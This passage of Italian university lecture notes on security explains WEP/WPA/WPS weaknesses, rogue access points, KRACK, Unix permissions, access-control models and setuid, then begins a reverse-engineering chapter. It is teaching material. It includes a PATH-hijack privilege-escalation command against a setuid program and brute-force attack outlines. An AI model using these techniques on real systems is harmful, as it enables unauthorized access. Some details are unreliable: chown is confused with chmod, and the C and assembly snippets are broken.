    
\includegraphics[width=.6\linewidth]{res/WEP_OpenSystem.png}
    \caption{}
\end{figure}

Mediante l'utilizzo di RC4, un algortimo di cifratura a flusso a chiave simmetrica. La Chiave WEP (da 40 o 104 bit) viene inizialmente concatenata con un vettore di inizializzazione (IV) a 24 bit in questo modo viene formata una stringa di 64 o 128 bit (40+24 o 104+24) che viene fornita in ingresso all’algoritmo RC4 per andare a creare la chiave di cifratura dei dati.

$
    m = m_0||m_1||m_2||...||m_n\\
    RC4_seed(IV||k)\\
    c_0 = RC4() \oplus m_0\\
    ...\\
    c_i = RC4() \oplus m_i\\
    ...\\
    c_n = RC4() \oplus m_n
$

Dopo 30000 pacchetti trasmessi dalla rete le probabilità di collisione sono praticamente impossibili da evitare.

$collisionP \approx 1 - e^\frac{-30000^2}{2*(2^{24})} = 0,99999999999774...$

Sapendo questo possiamo arrivare alla conclusione che catturando abbastanza pacchetti con lo steso IV si potranno fare attacchi statistici, inoltre catturando pacchetti con un IV noto sarà possibile far ricircolare pacchetti vecchi per aumentare il traffico della rete.

\subsection{WPA (Wi-Fi Protected Access)}
Per ovviare ai precedenti problemi di WEP si è sviluppato un nuovo protocollo più sicuro chiamato \textbf{WPA (Wi-Fi Protected Access)}, questo standard attualmente alla versione 3, pone diversi modi di utilizzo per il canale:
\begin{itemize}
    \item PSK, per reti domestica, chiave segreta su ogni dispositivo;
    \item Enterprise, per reti con molti utenti (e.g. ALMAWIFI);
    \item WPS, sistema di autenticazione facilitato;
\end{itemize}
che sfruttano diversi metodi di cifratura in base al caso:
\begin{itemize}
    \item TKIP, compatibile WEP, deprecato;
    \item CCMP, basato su AES (attuale standard).
\end{itemize}

\subsubsection{WPA-PSK TKIP}
Il primo metodo di autenticazione \textbf{WPA-PSK TKIP} è stato concepito per essere retrocompatibile con WEP, basandosi anch'esso su RC4 e con una gestione delle chiavi un pò più sicura, ciò ha portato a fargli ereditare gli stessi problemi di WEP. Ormai reso deprecato.

\subsubsection{WPA-PSK CCMP}
Al contrario del metodo precedente \textbf{WPA-PSK CCMP} utilizza un cifrario forte (AES) e una gestione delle chiavi molto più complessa, portandolo a risultare uno dei metodi più resistenti di WPA in questo momento

Seppur più sicuro tutte le reti PSK soffrono degli stessi problemi, cioè vulnerabilità a livello di autenticazione non di crittografia, ad esempio si potranno perpetrare comunque attacchi di tipo bruteforce o dizionario analogamente alle password.

\subsubsection{WPS}
Per rendere più semplice l'autenticazione ad una rete si è studiato un metodo per l'autenticazione ad una rete senza bisogno della password, abilitando diverse tipologie di accesso come mediante un pin o un pulsante fisico sul dispositivo di rete.

Un sistema utilizzante WPS potrà facilmente essere attaccato, mediante un rougue access point posizionato in un punto strategico, se utilizzante il metodo di accesso con pulsante fisico. Mentre se utilizzante l'accesso tramite PIN le cose si fanno ancora più pericolose in quanto essendo implementato attraverso 7 cifre, tramite un attacco bruteforce basteranno 10000000 tentativi per trovare la password. Per qualche scelta implementativa però si è deciso che le ultime 3 cifre del PIN vengano controllate solo se le prime 4 sono corrette abbassando così a 11000 tentativi (10000+1000) la ricerca, circa 20 ore.
Inoltre, l'implementazione di WPS su molti dispositivi embedded utilizzava un PRNG (nonce) predicibile, abbassando il tempo di bruteforce a pochi minuti catturando e analizzando la comunicazione.
Questi tipi di attacchi prendono il nome di \textbf{Pixiedust}.

\subsubsection{WPA-Enterprise}
Al contrario delle reti normali le reti enterprise per garantire il login prevedono un server chiamato Radius che mantiene il login degli utenti. Il primo passaggio della rete non è cifrato con nessuna chiave, ma funziona mediante un meccanismo di certificati, ciò crea la possibilità di sfruttare un rougue access point.
Normalmente la connessione viene effettuata tramite un meccanismo di challenge and response, rendendo possibile quindi per il rouge access point effettuare un crack della password bruteforce o a dizionario. Come per WPA-PSK esiste un metodo semplificato anche per l'accesso a una rete enterprise, questo prende il nome di \textbf{GTC (Generic Token Card)} e può essere richiesto come preferenziale per l'accesso. Di norma già abilitato sui dispositivi mobili, il protocollo disabilita la procedura di challenge and response inviando la password \textbf{in chiaro}.

\subsubsection{Krak}
Così come per WEP, fino a WPA2, era possibile un attacco di replay. Nella fase di autenticazione della rete viene utilizzato un nonce che può essere riutilizzato identico per velocizzare le successive connessioni. Questo porta a una falla di sicurezza in quanto si potranno reinstallare chiavi vecchie in modo da poter analizzare facilmente la comunicazione e risalire alla chiave di cifratura. Grazie a questo attacco lo standard è stato ulteriormente migliorato dando vita a WPA3.
\chapter{Sicurezza dei sistemi e permessi}

\section{Introduzione}
La sicurezza nei sistemi differisce rispetto alla sicurezza delle reti, in quanto:
\begin{itemize}
    \item Possibilità di avere un ente certificato nel mezzo (Sistema operativo);
    \item I sistemi possono essere singolo o multi-utente;
    \item Possibilità di divisione dei privilegi.
\end{itemize}
È quella su cui agiscono Malware locali.

\subsection{Privilege Escalation}
Si definisce \textbf{Privilege Escalation} la possibilità di ottenere più privilegi sul sistema.
Ad esempio la possibilità di installare programmi, leggere informazioni private o
modificare configurazioni del sistema.

\section{Arbitrary Code Execution}
Il primo passo per eseguire un privilege escalation è l'esecuzione arbitraria di codice (e.g. per poter effettuare attacchi per ottenere privilegi più elevati).
Vi sono vari modi per perpetrare questa strada:
\begin{itemize}
    \item installando software;
    \item facendo girare software;
    \item sfruttando vulnerabilità in grado di dirottare il funzionamento dei programmi.
\end{itemize}

\section{Come funziona Unix}
In Unix la maggior parte delle risorse funziona come un file, questo significa che ottenendo l'accesso a un file potremo ottenere a sua volta l'accesso alla risorsa stessa, (e.g. /dev/snd/* per l’audio).

Il sistema mantiene le informazioni di accesso a un file tramite un meccanismo denominato \textbf{ACL (Access Control List)}. Queste vengono rappresentate come una tabella soggetto-oggetto, (e.g. Alice: read,write; Bob: read; Other: read). Normalmente Linux/Unix dichiara 3 oggetti:
\begin{itemize}
    \item il proprietario di un file;
    \item il gruppo proprietario di un file;
    \item tutti gli altri.
\end{itemize}
\clearpage
I soggetti sono identificati tramite un file (/etc/passwd) il quale contiene un'associazione nome utente: user id. Lo user id viene quindi salvato nel filesystem, associato ad ogni file.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.6\linewidth]{res/user_id.png}
    \caption{}
\end{figure}\\
Analogamente esiste un file anche per i gruppi (/etc/group) e un group id per gruppo.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.4\linewidth]{res/group_id.png}
    \caption{}
\end{figure}
Normalmente un Unix (sistemi multi-utente) è possibile "regalare" l'accesso a file ad altri utenti mediante in comando \textit{chmod} (che vedremo in seguito).

\section{Capabilities}
Una capability è un token in grado di rappresentare un determinato oggetto a cui si ha accesso. Alcuni esempi di capability sono: 
\begin{itemize}
    \item i cookie web, identificatori che indicano a quale sessione è associata una comunicazione;
    \item i file aperti.
\end{itemize}
A seguito di una system call di tipo open, viene ritornato un identificativo unico che verrà riconosciuto dal sistema operativo per indicare il file.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.6\linewidth]{res/capabilities.png}
    \caption{}
\end{figure}
Le capability posso essere supportate da sistemi crittografici (e.g. cookie) oppure da segmentazione a livello di sistema operativo (e.g. file).
Unix in particolare utilizza una misto tra ACL (file non aperti) e capabilities (file aperti, socket, ecc.).

\section{Modelli di scambio delle informazioni}

\subsection{MAC}
Per evitare il "regalo" di accesso da parte dell'utente owner è possibile utilizzare un sistema di \textbf{MAC (Mandatory Access Controll} (in linux ne esistono diversi: SeLinux, Tomoyo, SMACK, ecc.), è facile pensare a questi sistemi come nel caso della segregazione delle applicazioni Adnroid (e.g. da telegram non posso accedere ai messaggi di whatsapp).

\subsection{Modello Bell-LaPadula}
Esistono diversi modelli di flusso per le informazioni. Supponiamo di avere diversi file a diversi livelli di segretezza. Il modello Bell-LaPadula mette in atto le seguenti regole:
\begin{itemize}
    \item ogni soggetto e ogni oggetto hanno un livello di segretezza;
    \item un soggetto può leggere oggetti a livello di sicurezza minori o uguali al suo;
    \item un soggetto può scrivere oggetti a livelli di sicurezza pari o maggiori del suo. 
\end{itemize}
Questo metodo viene classificato come WURD, Write Up Read Down.

Supponiamo di avere tre livelli di sicurezza: Top-Secret, Secret, Public.
Alice è un' operatrice di livello Secret. Alice quindi potrà:
\begin{itemize}
    \item leggere documenti di livello Secret e Public;
    \item scrivere documenti di livello Secret e Top-Secret.
\end{itemize}
Alice quindi non potrà né scrivere documenti di livello Public né leggere documenti di livello Top-Secret.

\subsection{Modello Biba}
Al contrario di Bell-LaPadula Biba è un modello duale a esso, mettendo in atto le seguenti regole:
\begin{itemize}
    \item ogni soggetto e ogni oggetto hanno un livello di segretezza;
    \item un soggetto può scrivere oggetti a livelli di sicurezza pari o minori al suo;
    \item un soggetto può leggere oggetti a livelli di sicurezza pari o maggiori al suo.
\end{itemize}
Questo metodo viene classificato come WDRU, Write Down Read Up, metodo particolarmente utilizzato per l'integrità delle informazioni. Nel mondo Windows questo metodo prende il nome di Integrity Level (IL).

Supponiamo di avere tre livelli di sicurezza: Capitano, Tenente, Carabiniere Scelto.
Alice è un'operatrice a livello Tenente. Alice quindi potrà:
\begin{itemize}
    \item leggere documenti rilasciati da Tenenti e Capitani;
    \item scrivere documenti per Tenenti e Carabinieri Scelti
\end{itemize}
In questo modo si garantisce l'integrità delle informazioni non dando la possibilità di dare ordini a un suo superiore.
\section{Filesystem}
Nei sistemi operativi il sistema per lo scambio dei dati locali è il filesystem.
\clearpage
\begin{center}
    \begin{table}[]
        \centering
        \begin{tabular}{|c|c|}
            / & The root filesystem \\
            /proc & (pseudo) The process virtual infrastructure (e.g. /proc/1/cmdline) \\
            /sys & (pseudo) The system virtual infrastructure (e.g. /sys/class/leds) \\
            /dev & (pseudo) Device drivers file interface (e.g. /dev/sda) \\
            /run &  (pseudo) Contains run-time information \\
            /etc & Configuration directory \\
            /tmp & Temporary directory, volatile, usually mount on RAM \\
            /root & Root's home \\
            /bin & Binaries \\
            /lib & Libraries \\
            /sbin & System binaries \\
            /usr & User binaries \\
            /var & Log, cache and structured personal files (e.g. mailbox) \\
            /home & User's directory \\
            /mnt & External mountpoint \\
            /opt & Optionals softwares \\
        \end{tabular}
        \caption{Esempio filesystem Linux}
    \end{table}
\end{center}
Come dichiarato precedentemente il sistema in modalità DAC analizza in questo ordine i vari permessi, seguendo il seguente ordine:
\begin{enumerate}
    \item UID processo e proprietario del file;
    \item GID e gruppo del file;
    \item UID e Other.
\end{enumerate}
Questa modalità di analisi può generare complicanze contro-intuitive (esempio se l’utente appartiene a un gruppo che può leggere il file ma è il suo proprietario e il proprietario non può leggere il file).
Il super utente privilegiato del sistema (superuser) è l'unico che può svolgere ogni operazione a partire dalla radice (root, in ambienti Linux/Unix) del filesystem.
\'E possibile assegnare un file anche a una persona diversa, soltanto l'utente root di norma potrà "regalare" i file a chiunque.
All'occorrenza è possibile anche cambiare i permessi associati a un file, mediante il comando \textit{chown}. Questo comando prevede un interfaccia a linea di comando in grado di interpretare numeri in base 8 (ottali) o attraverso un sistema di configurazione più "intuitivo" basato su un linguaggio specifico:
\begin{itemize}
    \item bit 0: execute, possibilità di eseguire il file;
    \item bit 1: write, possibilità di scrivere il file;
    \item bit 2: read, possibilità di leggere il file.
\end{itemize}
Come possiamo intuire, impostando come permessi la terzina, 777, ci troveremo a "regalare" l'accesso al file a chiunque creando problemi di sicurezza (other: read, write, execute).

Sulle cartelle i permessi differiscono dai permessi sui file:
\begin{itemize}
    \item bit 0: execute, possibilità di entrare in una cartella;
    \item bit 1: write, possibilità di eliminare i file contenuti in una cartella (anche quelli creati da un altro utente);
    \item bit 2: read, possibilità di leggere il contenuto di una cartella.
\end{itemize}
Anche in questo caso si potrebbe generare una security by obscurity in quanto se a una cartella assegniamo con il comando \textit{chmod} i permessi, 711, otterremo che il proprietariò potrà effettuare tutte le operazioni sulla cartella, mentre gli altri potranno accedere lo stesso alla cartella ma non loro caso non vedranno nessun file all'interno (security by oscurity).

Per com'è pensato il sistema un utente può appartenere a più gruppi, questa possibilità si usa principalmente gli accessi ai file per i device driver.

\begin{lstlisting}[language=bash]
    command:
    ls -la /dev/tty0

    output: 
    crw--w---- 1 root tty 4, 0 Mar 23 16:25 /dev/tty0
\end{lstlisting}

Esistono anche i permessi speciali su Linux salvati nei bit più significativi dei metadati del file (se usati male, molto pericolosi): 
\begin{itemize}
    \item setuid: se il file ha il flag impostato, il kernel avvia il processo relativo con i privilegi dell’utente proprietario del file piuttosto che con quelli dell’utente che lo ha lanciato in esecuzione, questo bit non ha effetto sulle cartelle;
    \item setgid, se una directory ha il flag impostato questa assegnerà ai file creati al suo interno il gruppo d’appartenenza della cartella, utile per mantenere all’interno di una cartella il gruppo corretto per tutti i file, un file eseguito con questo bit eseguirà con il gruppo di appartenenza;
    \item sticky: se impostato il flag essa permetterà l’eliminazione dei file al suo interno solo al suo owner (anche se la cartella ha permesso di scrittura per tutti, e.g. /tmp/), su un file lo sticky bit è ignorato e deprecato.
\end{itemize}
Ciò rende l'utilizzo di questi bit \textbf{estremamente pericoloso}.

\begin{ex}
    Cosa succede, ad esempio se usiamo il seguente codice C?
    
    \begin{lstlisting}[language=C]
        ...
        system("whoami");
        ...
    \end{lstlisting}
    
    Otterremo l'esecuzione del comando \textit{whoiam} con i privilegi dell'utente indicato, essendo un comando shell, questo potrà essere dirottato per eseguire del codice malevolo.

    \begin{lstlisting}[language=bash]
        PATH=. ./vulnprogram
    \end{lstlisting}
\end{ex}
Proprio sfruttando questa escalation di privilegi il comando \textit{sudo} pone il suo funzionamento, ponendosi con privilegi elevati e controllando la password dell'utente.
Essendo \textit{setuid} un chiaro problema di sicurezza, in quanto per ottenere i privilegi di root e.g. per cambiare un file otterremo l'intero insieme di privilegi (e.g. la possibilità di cambiare indirizzo IP della macchina), per questo motivo si è pensato bene di spezzettare i vari privilegi in modo tale da assegnare solo quelli che servono per la corrente esecuzione, (e.g. CAP\_NET\_ADMIN, CAP\_DAC\_OVERRIDE, per altri basta consultare il manuale delle capabilities).

\chapter{Reverse engineering and binary analysis}

\section{Introduzione}
In questa parte degli appunti tratteremo di:
\begin{itemize}
    \item Come i programmi vengono compilati.
    \item Struttura di un file ELF.
    \item Deassemblamento di un file.
    \item Decompilazione di un file.
    \item Debug.
    \item Anti debug.
    \item Assembly.
    \item Kernel space vs user space.
    \item System call vs library call.
    \item Librerie dinamiche vs librerie statiche.
    \item Dynamic tracing.
\end{itemize}

\section{Linguaggio C}
Il reale problema del linguaggio \textit{C} è il comportamento degli errori. Per com'è strutturato gli errori lanciati dal linguaggio non sono specializzati, ciò è quello che cerchiamo quando ci troviamo ad analizzare un eseguibile perchè ci aiuterà nell'iniettare del codice arbitrario, questa problematica genera una \textbf{Nasal Demon} (comportamento indefinito).

\begin{ex}
    Per esempio facendo eseguire questo codice in C:
    \begin{lstlisting}[language=C]
        ...
        ++x + x++
        ...
    \end{lstlisting}
    otterremo così un nasal demons, in quanto verranno rilasciati risultati non deterministici.
\end{ex}

\subsection{Come viene compilato un programma}

Supponiamo di avere del codice C come questo:
\begin{lstlisting}[language=C]
    #include <stdio.h>
    
    int main (int argc, char** argv ) { 
        char who[] = world;
        print ("Hello %s! \n", who);
        return 0 ;
    }
\end{lstlisting}
\textbf{Domanda:} Quali sono i passaggi per effettuare la compilazione?

\subsubsection{Precompilazione}
Il compilatore è istruito per includere codice o tradurre codice da altri sorgenti. Perciò il contenuto delle librerie (e.g. stdio.h) sarà inserito in testa al \textit{main} del programma.

\subsubsection{Compilazione}
Una volta passato per il precompilatore il passo successivo sarà effettuato dal compilatore che si occuperà di tradurre il codice \textit{C} in codice \textit{assembly}.

\begin{lstlisting}[language={[x86masm]Assembler}]
main:
    .LFB0:
    .cfi_startproc
    pushq %rbp
    .cfi_def_cfa_offset 16
    .cfi_offset 6, -16
    movq %rsp , %rbp
    . cfi_def_cfa_register 6
    subq $16 , %r s p
    movl %edi , -4(%rbp )
    movq %r s i , -16(%rbp )
    leaq .LC0(%rip), %rdi
    call puts@PLT
    movl $0 , %eax
    leave
    .cfi_def_cfa 7, 8
\end{lstlisting}

\subsubsection{Assembly}
In questa fase il codice assembly ottimizzato verrà tradotto in \textbf{opcode}, linguaggio binario comprensibile dalla macchina, mediante un assembler.
\begin{lstlisting}[language=bash]
    command:
    file test.o

    output:
    test.o: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), not stripped 
\end{lstlisting}

\subsubsection{Linking}
Se dovessimo aprire il codice potremmo vedere come le nostre chiamate alle funzioni siano dei \textit{placeholder} e non il codice della funzione scritta in \textit{C}, questo codice sarà iniettato a livello nel programma dal \textit{linker (ld)}.

\subsection{Struttura di un file ELF}
Il binario che avremo come risultato dopo tutti i passaggi sarà serializzato in un file strutturato e formattato in formato \textbf{ELF (Executable and Linkable Format)}.
Questo formato dichiara differenti aree chiamate segmenti:
\begin{lstlisting}[language=bash]
    command:
    readelf -S $(which /bin/ls)
\end{lstlisting}

\begin{figure}[h!]
    \centering
